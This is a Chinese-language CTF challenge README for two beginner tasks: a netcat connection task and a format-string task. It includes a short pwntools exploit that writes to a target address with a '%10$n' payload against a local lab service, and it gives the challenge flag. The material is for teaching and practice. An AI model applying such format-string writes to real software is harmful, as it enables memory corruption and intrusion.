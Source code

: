 # readme

## 题目信息

1. helloworld
2. pwn1

这两个题是用ctf_xinetd搭建，pwn_deploy_chroot搭建的是同一题目，不一一列举了

## 题目描述

1. hello_pwn
2. 相等就能得到flag

## 题目提示

1. 连接一下
2. 注意输出

## 题目考点

1. nc
2. %n能干什么，%(offset)$n能干什么

## writeup

1. helloworld

![](截图\Snipaste_2020-02-22_16-12-29.png)

2. pwn1

![](截图\Snipaste_2020-02-22_16-16-30.png)

先查输入字符偏移为10，利用%10$n将前8个字符统计出来并传入指定偏移位置

**exp**

```python
from pwn import *
p = remote('127.0.0.1',1113)
pwnme_addr = 0x804A068           
p.sendlineafter("name:\n",'aaa')
payload = p32(pwnme_addr)+'aaaa'+'%10$n'     
p.sendlineafter("please:\n",payload)
p.interactive()
```

## 题目flag

ctf{oh_you_find_me}

## 仓库截图

![](截图\Snipaste_2020-02-22_16-32-23.png)